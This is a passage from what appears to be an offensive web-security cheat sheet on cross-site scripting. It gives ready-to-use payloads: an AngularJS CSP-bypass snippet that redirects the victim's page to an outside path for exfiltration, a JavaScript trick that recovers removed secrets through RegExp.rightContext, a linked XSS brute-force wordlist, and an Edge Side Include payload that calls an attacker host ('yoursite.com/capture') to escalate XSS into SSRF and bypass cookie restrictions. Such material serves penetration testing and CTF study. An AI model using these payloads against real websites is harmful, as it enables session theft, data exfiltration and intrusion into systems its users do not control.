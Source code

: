 ```markup
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<!-- ... add more CDNs, you'll get WARNING: Tried to load angular more than once if multiple load. but that does not matter you'll get a HTTP interaction/exfiltration :-]... -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

### Regex - Access Hidden Content

From [**this writeup**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-piyosay) it's possible to learn that even if some values disappear from JS, it's still possible to find them in JS attributes in different objects. For example, an input of a REGEX is still possible to find it after the value of the input of the regex was removed:

```javascript
// Do regex with flag
flag="CTF{FLAG}"
re=/./g
re.test(flag);

// Remove flag value, nobody will be able to get it, right?
flag=""

// Access previous regex input
console.log(RegExp.input)
console.log(RegExp.rightContext)
console.log(document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"])
```

### Brute-Force List

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt" %}

## XSS Abusing other vulnerabilities

### XSS in Markdown

Can inject Markdown code that will be renderer? Maybe you you can get XSS! Check:

{% content-ref url="xss-in-markdown.md" %}
[xss-in-markdown.md](xss-in-markdown.md)
{% endcontent-ref %}

### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```python
<esi:include src="http://yoursite.com/capture" />
```

Use it to bypass cookie restrictions, XSS filters and much more!\
More information about this technique here: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md).
